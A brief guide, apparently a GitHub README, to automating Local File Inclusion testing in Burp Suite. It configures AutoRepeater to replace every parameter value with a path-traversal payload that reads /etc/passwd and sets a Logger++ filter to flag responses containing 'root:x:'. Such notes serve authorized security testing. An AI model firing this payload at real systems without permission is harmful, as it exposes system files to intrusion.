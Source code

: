 ## Local File Inclusion Automation in Burp Suite 
#### <em>Extentions: AutoRepeater and Logger++</em>


## AutoRepeater Replacement Configuration
 
2) Replace LFI Payload:

    ```
    Type: Request Param Value
    Match: .*
    Replace: ..//..//..//..//..//..//..//..//..//..//..//etc//passwd
    Witch: Replace All
    Regex Match: Enabled
    ```
    
## Logger++ Filter For AutoRepeater Local File Inclusion

    Response.Body CONTAINS "root:x:"
    

<h4><em>Happy Huntnting ;) </em><h4>
